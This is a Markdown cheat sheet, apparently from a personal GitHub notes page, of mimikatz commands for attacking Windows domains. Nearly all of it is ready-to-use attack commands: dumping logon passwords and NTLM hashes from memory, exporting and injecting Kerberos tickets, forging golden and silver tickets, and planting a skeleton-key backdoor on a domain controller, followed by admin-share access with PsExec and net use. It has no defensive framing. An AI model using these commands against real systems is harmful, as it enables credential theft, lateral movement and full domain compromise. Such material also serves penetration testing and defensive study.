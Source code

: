 # mimikatz

## check

```bash
privilege::debug
# Privilege '20' OK => Working properly
```

## dump password / hashes

```bash
# dump logon users pass
sekurlsa::logonpasswords

# dump hashes
lsadump::lsa /patch
# hashcat -m 1000 <hash>
```

## Pass-the-ticket

```bash
# exports all .kirbi to current directory
sekurlsa::tickets /export

# PTT using admin .kirbi 
kerberos::ptt TICKET

# to check if ticket is working
> klist
```

## Golden / Silver Ticket

```bash
# dump hash and SID
lsadump::lsa /inject /name: [krbtgt | DOMAIN_ADMIN_ACCOUNT | SERVICE_ACCOUNT] 

# create golden ticket
kerberos::golden /user:Administrator /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:500
# create silver ticket
kerberos::golden /user:<USER> /domain:DOMAINM /sid:SID /krbtgt:SERVICE_NTLM_hash /id:1103

# check
misc::cmd
dir \\Desktop-1\c$ [/user:USER PASS]
PsExec.exe \\Desktop-1 cmd.exe

```

## kerberos Skeleton Key

```bash
misc::skeleton

# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```